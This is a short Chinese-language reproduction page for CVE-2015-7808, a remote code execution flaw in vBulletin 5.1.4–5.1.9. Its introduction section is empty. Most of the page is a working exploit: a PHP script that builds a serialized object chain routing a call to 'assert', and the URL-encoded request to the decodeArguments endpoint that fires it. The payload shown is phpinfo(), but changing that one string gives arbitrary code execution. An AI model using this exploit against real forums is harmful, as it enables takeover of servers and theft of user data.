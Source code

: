 # CVE-2015-7808 VBulletin 远程命令执行漏洞

### 一、漏洞简介

### 二、漏洞影响

VBulletin VBulletin 5.1.4 - 5.1.9

### 三、复现过程


```php
$ php << 'eof'
 <?php
 class vB_Database_MySQL{
        public $functions = array();
 
        public function __construct() 
        {
                $this->functions['free_result'] = 'assert';
        }
 }
 
 class vB_dB_Result {
        protected $db;
        protected $recordset;
 
        public function __construct()
        {
                $this->db = new vB_Database_MySQL();
                $this->recordset = "phpinfo()";
        }
 }
 
 print urlencode(serialize(new vB_dB_Result())) . "n";
 eof
```


```bash
http://url/ajax/api/hook/decodeArguments?arguments=O%3A12%3A%22vB_dB_Result%22%3A2%3A%7Bs%3A5%3A%22%00%2A%00db%22%3BO%3A17%3A%22vB_Database_MySQL%22%3A1%3A%7Bs%3A9%3A%22functions%22%3Ba%3A1%3A%7Bs%3A11%3A%22free_result%22%3Bs%3A6%3A%22assert%22%3B%7D%7Ds%3A12%3A%22%00%2A%00recordset%22%3Bs%3A9%3A%22phpinfo%28%29%22%3B%7D
```

![](images/15893741235289.png)


